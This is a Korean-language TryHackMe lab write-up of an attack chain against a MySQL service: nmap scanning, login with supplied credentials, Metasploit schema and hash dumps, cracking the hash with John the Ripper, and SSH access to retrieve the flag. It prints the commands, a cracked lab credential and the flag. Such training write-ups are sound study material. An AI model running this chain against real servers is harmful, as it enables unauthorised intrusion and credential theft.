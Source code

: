 # TryHackMe - Network Services 2 (MySQL)

> 이 실습은 TryHackMe의 Network Services 2 챕터 중 MySQL을 활용한 공격 시나리오입니다. 포트 스캔부터 DB 접속, 해시 크랙, 최종 SSH 접근 및 플래그 획득까지의 전 과정을 다룹니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.92.222`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `mysql`: 직접 DB 접속 확인
  - `Metasploit Framework`: DB 버전, 스키마, 해시 덤프 등 정보 수집
  - `John the Ripper`: 비밀번호 해시 크랙
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -p- -T4 10.10.92.222 -oN nmap_scan.txt
```
- 설명: 모든 포트를 대상으로 서비스 및 버전 정보, 운영체제 탐지까지 수행. 결과적으로 22번(SSH), 3306번(MySQL) 포트가 열려 있으며 각각 OpenSSH 7.6p1 및 MySQL 5.7.29 버전이 실행 중인 것을 확인 하였습니다. 인증서 정보와 인증 방식(mysql_native_password)도 수집된 걸 알수 있습니다.

| 포트 | 서비스 | 설명 |
|------|---------|------------------------------|
| 22/tcp | ssh     | OpenSSH 7.6p1 (Ubuntu Linux) |
| 3306/tcp | mysql  | MySQL 5.7.29 (Ubuntu 18.04)   |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 MySQL 직접 접속 확인

- 설명: 문제에서 제공된 사용자 계정과 패스워드를 통해 기본 계정 정보를 이용해 DB에 직접 접속 가능한지 테스트 했습니다. 인증에 성공하면 내부 탐색이 가능합니다.

```bash
mysql -h 10.10.92.222 -u root -p
# password: password
```

![MySQL 로그인 성공](./screenshots/mysql_login.png)

---

### 3.2 Metasploit - MySQL 버전 확인

- 설명: msfconsole 명령어로 `Metasploit Framework`를 사용하여 사용자 계정과 패스워드를 이용하여 `mysql_sql` 모듈을 통해 MySQL 버전 정보를 확인 하였습니다. 취약점 존재 여부 판단에 활용을 위해 이 모듈을 사용했습니다.

```bash
use auxiliary/admin/mysql/mysql_sql
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_sql 모듈 옵션 확인](./screenshots/msf_mysql_sql_module.png)

- 버전 확인 결과

![MySQL 버전 확인 결과](./screenshots/msf_mysql_version_result.png)

- 후에 DB 목록 확인을 위해 아래 명령어를 사용했습니다.

```bash
set sql show databases
```

![SQL로 DB 목록 확인](./screenshots/msf_schema_show_dbs.png)

---

### 3.3 Metasploit - 스키마 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 `mysql_schemadump` 모듈을 사용해 DB 서버에 저장된 전체 데이터베이스 목록을 수집하기 위해 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_schemadump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_schemadump 모듈 옵션 보기](./screenshots/msf_schema_dump_module.png)

- 스키마 덤프 결과

![스키마 덤프 결과](./screenshots/msf_schema_dump_result.png)

- DB 스캔 결과: [db.txt](./db.txt) 파일 참조 (파일 내용 매우 김.)

---

### 3.4 Metasploit - 해시 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 해시를 덤프하기 위해 `mysql_hashdump` 모듈을 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_hashdump 모듈 옵션 보기](./screenshots/msf_hashdump_module.png)

- 또 다른 사용자 해시 수집됨:
```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

![사용자 해시 정보 획득](./screenshots/msf_hashdump_result.png)

---

### 3.5 John the Ripper로 비밀번호 크랙

- 설명: 이 해시는 MySQL 5.x 버전에서 사용하는 native password 인증 해시로, `SHA1(SHA1(password))` 방식입니다. 따라서 John에서 `--format=mysql-sha1` 옵션을 사용해 크랙을 시도하였습니다.

- 추가: 우선 가져온 사용자 이름과 해시 비밀번호를 `hash.txt`에 복사를 하여 실행을 했습니다.

```bash
vi hash.txt
john --format=mysql-sha1 hash.txt
john --show hash.txt
```

- 결과: `carl:doggie`

![John 해시 크랙 결과](./screenshots/john_crack_hash.png)

---

### 3.6 SSH 접속 및 플래그 획득

- 설명: 크랙한 계정 정보를 사용해 SSH로 시스템에 접근하고, 사용자 홈 디렉토리에서 `MySQL.txt` 파일 확인하여 플래그를 확보 했습니다.

```bash
ssh carl@10.10.92.222
# password: doggie
```

- 획득한 플래그: `THM{congratulations_you_got_the_mySQL_flag}`

![SSH 접속 및 flag 획득](./screenshots/ssh_login_flag.png)

---

## 4. 배운 점

- Metasploit을 활용한 DB 정보 수집이 굉장히 강력하다는걸 깨달았다. (schemadump, hashdump)
- MySQL 해시 형식(`mysql-sha1`)을 식별하고 John으로 정확히 크랙하는 방법을 습득 하였다.
- 단일 서비스에서 시작해도 SSH까지 이어지는 공격 시나리오 구성이 가능하다는 걸 알았다.
- DB 인증정보 재사용 여부가 보안에 미치는 영향을 체감했다.



